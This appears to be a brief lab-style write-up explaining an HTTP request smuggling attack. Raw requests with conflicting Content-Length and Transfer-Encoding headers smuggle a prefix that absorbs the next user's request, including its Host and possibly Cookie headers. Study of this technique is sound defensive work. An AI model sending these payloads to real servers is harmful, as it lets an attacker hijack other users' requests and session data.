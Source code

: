 Attack req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
0\r\n
\r\n
GET /jjjjjjjjjj HTTP/1.1\r\n
```

So now when we send the attack req and after it we send the normal req and we get back 400 Bad request with response: `Invalid request`
We get that invalid request because on the backend after the attack req is processed, the:
`GET /jjjjjjjjjj HTTP/1.1\r\n` part is still there and when norm req comes the server tries to process the following:
```bash
GET /jjjjjjjjjj HTTP/1.1\r\n
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
That's why we get invalid request

To fix that we change the attack req to the following:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
0\r\n
\r\n
GET /jjjjjjjjjj HTTP/1.1\r\n
Random: x
```
And later it will append norm req in the following way: 
```bash
GET /jjjjjjjjjj HTTP/1.1\r\n
Random: xPOST / HTTP/1.1\r\n
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
So `POST / HTTP/1.1\r\n is now part of the value of Random header and other headers like Host and potentially Cookie are used as part of our request (GET /jjj...)`
And we now send attack and norm requests and we get 404 Not found, which confirms that `GET /jjjjjjjjjj` was not found
